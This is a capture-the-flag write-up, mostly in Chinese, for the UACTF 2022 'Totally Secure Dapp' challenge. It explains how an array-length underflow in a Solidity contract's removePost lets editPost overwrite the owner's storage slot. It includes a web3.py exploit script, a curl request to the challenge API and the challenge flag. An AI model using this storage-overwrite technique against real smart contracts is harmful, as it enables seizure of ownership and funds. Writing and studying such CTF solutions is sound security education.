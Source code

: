 ```yaml
---
title: Blockchain - Totally Secure Dapp
description: 2022 | UACTF | Web
tags:
    - smart contract
---
```


## 题目

It's on the blockchain, and there's no way anything on the blockchain could ever have any vulnerabilities.

Note, because the contract is on Ropsten, some transactions might fail. If that happens, just keep retrying.

Get test ether from https://faucet.metamask.io/

https://totally-secure-dapp.vercel.app/

[:material-download: `totally-secure-dapp.zip`](static/totally-secure-dapp.zip)

## 解题思路

- https://totally-secure-dapp.vercel.app/ 主要提供了 `New Post` 和展示 Post 的功能，Post 记录上链
- 提供了两份合约代码，Post 相关操作函数位于 `TotallySecureDapp.sol`，当调用者为 `owner` 且合约账户的余额大于 `0.005` 以太时可以触发 `FlagCaptured` 事件

    ```js
    modifier onlyOwner() {
        require(msg.sender == _owner, 'Caller is not the owner');
        _;
    }

    function captureFlag() external onlyOwner {
        require(address(this).balance > 0.005 ether, 'Balance too low');
        _flagCaptured = true;
        emit FlagCaptured(msg.sender);
    }
    ```

- 除此之外，能够调用的函数有 `addPost`、`editPost`、`removePost` 和 `nPost`。注意到 `removePost` 中 `length` 的减法没有使用 `SafeMath` 或在使用前进行判断

    ```js
    function addPost(string title, string content) external {
        Post memory post = Post(title, content);
        _posts.push(post);
        _authors.push(msg.sender);
        emit PostPublished(msg.sender, _posts.length - 1);
    }

    function editPost(
        uint256 index,
        string title,
        string content
    ) external {
        _authors[index] = msg.sender;
        _posts[index] = Post(title, content);
        emit PostEdited(msg.sender, index);
    }

    function removePost(uint256 index) external {
        if (int256(index) < int256(_posts.length - 1)) {
            for (uint256 i = index; i < _posts.length - 1; i++) {
                _posts[i] = _posts[i + 1];
                _authors[i] = _authors[i + 1];
            }
        }
        _posts.length--;
        _authors.length--;
        emit PostRemoved(msg.sender, index);
    }

    function nPosts() public view returns (uint256) {
        return _posts.length;
    }
    ```

- 因为数组长度可控且可编辑指定下标的数组元素，接下来只需要通过 `editPost` 覆盖 `owner` 变量
    - `string` 类型的变量存储方式与 `address` 类型的不同，当长度小于 $32$ 字节时，元素存储在高位，低位存储字符串字节长度，当长度大于 $31$ 字节时，存储方式与数组类似
    - 建议通过 `_authors` 数组完成覆盖操作

    ```js
    // contract Initializable
    bool private _initialized;  // slot 0
    bool private _initializing; // slot 0

    // contract TotallySecureDapp is Initializable
    struct Post {
        string title;
        string content;
    } // 2 slots

    string public _contractId; // slot 1
    address public _owner; // slot 2
    address[] public _authors; // slot 3
    Post[] public _posts; // slot 4
    bool public _flagCaptured; // slot 5
    ```

- 另外，合约 `TotallySecureDapp` 不接受直接转账，所以需要一些特殊手段 >v< 比如 `selfdestruct`

    ```js
    function() external payable {
        revert('Contract does not accept payments');
    }
    ```

- 给 `TotallySecureDapp` 合约实例转账后，通过 web3py 与合约进行交互

    ```py
    from web3 import Web3
    import json, time

    # 在 https://infura.io/ 注册一个账号并创建一个项目可获得 API key
    w3 = Web3(Web3.HTTPProvider("https://ropsten.infura.io/v3/<api-key>"))

    account = w3.eth.account.from_key("<your-private-key>")

    contract_address = "<totallysecuredapp-instance-address>"

    abi = json.loads(open('abi.json').read())
    contract = w3.eth.contract(address=contract_address, abi=abi)

    # 先调用 removePost 使数组长度下溢出
    tx = contract.functions.removePost(1).buildTransaction({"from": account.address, "nonce": w3.eth.getTransactionCount(account.address)})
    signed_tx = account.signTransaction(tx)
    print(w3.eth.sendRawTransaction(signed_tx.rawTransaction).hex())

    time.sleep(30)  # 等待交易确认

    # 修改 owner
    index = 2**256 - int(Web3.soliditySha3(['uint256'], [3]).hex(), 16) + 2
    tx = contract.functions.editPost(index, "unimportant", "unimportant").buildTransaction({"from": account.address, "nonce": w3.eth.getTransactionCount(account.address)})
    signed_tx = account.signTransaction(tx)
    print(w3.eth.sendRawTransaction(signed_tx.rawTransaction).hex())

    time.sleep(30)

    # emit FlagCaptured
    tx = contract.functions.captureFlag().buildTransaction({"from": account.address, "nonce": w3.eth.getTransactionCount(account.address)})
    signed_tx = account.signTransaction(tx)
    print(w3.eth.sendRawTransaction(signed_tx.rawTransaction).hex())
    ```

- [TotallySecureDapp | Address 0x014a2a17aa06c26c660fb4a269ac87849d38fd0a | Etherscan](https://ropsten.etherscan.io/address/0x014a2a17aa06c26c660fb4a269ac87849d38fd0a#events) 可以看到 `FlagCaptured` 事件被成功触发了，但是 Flag 在哪？
- 起初以为是事件的返回值，但查日志也最多只能获得传参。想到是 Web 题，跑去翻了翻源码，发现 `pages/api/secret.ts` 中提供了获取 Flag 的接口，请求参数包括 `userAddress`、`contractAddress` 以及 `userId`

    ```ts
    const { userAddress, contractAddress, userId } = req.body as ReqData;
    ```

    ```ts
    const owner = await contract._owner();
    const flagCaptured = await contract._flagCaptured();
    const balance = await provider.getBalance(contractAddress);
    if (owner === userAddress && flagCaptured && balance.gt(parseEther('0.005'))) {
        const ids = db.collection('users').doc('ids');
        if (!ids) {
            res.status(500).json({ error: 'Failed to load ids' });
            return;
        }
        const id = (await ids.get()).get(userAddress.toLowerCase());
        if (id !== userId) {
            res.status(401).json({ error: 'Unauthorised' });
            return;
        }
        const flag = process.env.FLAG;
        res.status(200).json({ flag: flag });
        return;
    }
    ```

- 合约相关的条件都已满足，还差一个 `userId`，搜了搜源码，在 `components/connector/ConnectModal.tsx` 下找到了

    ```tsx
    window.localStorage.setItem('user-id', id);
    ```

- 在控制台输入 `localStorage.getItem('user-id')` 即可获得对应账户的 `userId`
- 调用 API 接口

    ```bash
    $ curl -d '{"userAddress":"0xe09f6d20E2522F6B971b4516744946CF17BE8432", "contractAddress":"0x014A2a17AA06C26C660FB4A269aC87849d38Fd0A", "userId": "RIHIaESfxzilmF10mmBpH"}' -H "Content-Type: application/json" -X POST https://totally-secure-dapp.vercel.app/api/secret
    {"flag":"UACTF{23411y_m394_5u5_f149}"}
    ```

### Flag

> UACTF{23411y_m394_5u5_f149}